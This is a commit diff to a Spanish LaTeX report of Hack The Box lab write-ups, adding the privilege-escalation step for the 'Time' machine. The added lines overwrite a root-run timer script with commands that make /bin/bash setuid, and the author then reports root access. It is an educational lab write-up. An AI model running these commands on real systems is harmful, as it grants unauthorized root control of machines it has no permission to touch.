

Before and after one commit to CLmilo/Informes_HTB, a LaTeX document (informe3/Informe3.tex): part of page 10 of 31 before the commit and two parts of pages 10 and 11 of 32 after it, the two joined at a grey line, cut so that both start at the same text, the shorter picture padded with empty space. Compiled offline with pdfLaTeX.

Commit message:
final time

```diff
--- a/informe3/Informe3.tex
+++ b/informe3/Informe3.tex
@@ -233,7 +233,32 @@ Visualizamos para ver qué es lo que hace este script con cat y vemos esto.
 	\caption{Analizando timerscript}
 \end{figure}
 
-\subsection{Post Explotación}
+Entonces tratamos de modificarlo para que haga lo que queremos con permisos elevados, probamos primero intentando crear una shell aparte en temporal para ejecutar lo que queremos, y esto se hace con el comando.
+
+\begin{lstlisting}[language={[ANSI]C}]
+	echo "#!/bin/bash
+		cp /bin/bash /tmp/bash
+		chmod u+s /tmp/bash"
+		> /usr/bin/timer_backup.sh
+\end{lstlisting}
+pero no funcionó así que usé
+
+\begin{lstlisting}[language={[ANSI]C}]
+	echo "#!/bin/bash \nchmod u+s /bin/bash" > /usr/bin/timer_backup.sh
+\end{lstlisting}
+\begin{figure}[H]
+	\center
+	\includegraphics[width=\textwidth]{images/time/cambiando-timer.jpg}
+	\caption{Cambiando el timer}
+\end{figure}
+con esto ya pude obtener acceso al fin como root
+\begin{figure}[H]
+	\center
+	\includegraphics[width=\textwidth]{images/time/obteniendo-root.png}
+	\caption{Obteniendo acceso como root}
+\end{figure}
+
+
 
 % ----------------------------Jarvis-----------------------------------
 \clearpage
```
Also changed, not shown: informe3/images/time/cambiando-timer.jpg (added), informe3/images/time/obteniendo-root.png (added), informe3/Informe3.tex (2 more changed lines), 2 other files.
